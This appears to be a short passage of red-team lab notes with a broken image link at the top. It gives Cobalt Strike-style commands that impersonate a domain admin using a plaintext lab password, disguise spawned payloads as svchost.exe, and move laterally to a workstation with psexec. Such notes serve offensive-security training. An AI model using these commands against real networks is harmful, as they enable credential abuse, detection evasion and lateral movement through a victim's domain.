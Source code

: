 
Create logon session as local Admin
```powershell
make_token CONTOSO\rsteel Passw0rd!
```

Change the `spawnto` for the service payload
```powershell
ak-settings spawnto_x86 C:\Windows\SysWOW64\svchost.exe
ak-settings spawnto_x64 C:\Windows\System32\svchost.exe
```

Jump via psexec64
```powershell
jump psexec64 lon-ws-1 smb
```

---

